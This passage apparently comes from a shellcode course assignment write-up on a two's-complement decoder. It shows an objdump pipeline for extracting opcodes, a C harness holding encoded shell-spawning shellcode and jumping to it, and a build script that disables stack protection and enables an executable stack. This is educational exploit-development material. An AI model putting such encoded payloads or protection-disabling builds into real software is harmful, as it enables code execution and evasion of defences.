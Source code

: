 Then it is necessary to obtain the shellcode of the program using the following command: ``objdump -d ./two_complement_decoder|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'``

Using this information, it is possible to generate a PoC on C language.
````
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\xeb\x19\x5e\x8d\x3e\x31\xc0\x99\x8a\x14\x06\x80\xfa\xdd\x74\x10\xf6\xda\x88\x17\x47\x40\x8a\x14\x06\xeb\xed\xe8\xe2\xff\xff\xff\xcf\x40\xb0\x98\xd1\xd1\x8d\x98\x98\xd1\x9e\x97\x92\x77\x1d\xb0\x77\x1e\xad\x77\x1f\x50\xf5\x33\x80\xdd";

main()
{

	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();

}
````
``shellcode.c``

To compile this C code, the following bash script could be executed including the name of the C file (without extension):

````
#!/bin/bash
#Example of execution ./compile_shellcode.sh shellcode

echo '[+] Compiling without stack protector and execstack ... '
gcc -fno-stack-protector -z execstack $1.c -o $1
echo '[+] Done!'
````
``compile_shellcode.sh``

Finally, it is possible to execute the shellcode and get a shell. However, for this assignment the demo will consist on debugging the execution of the program using GDB.
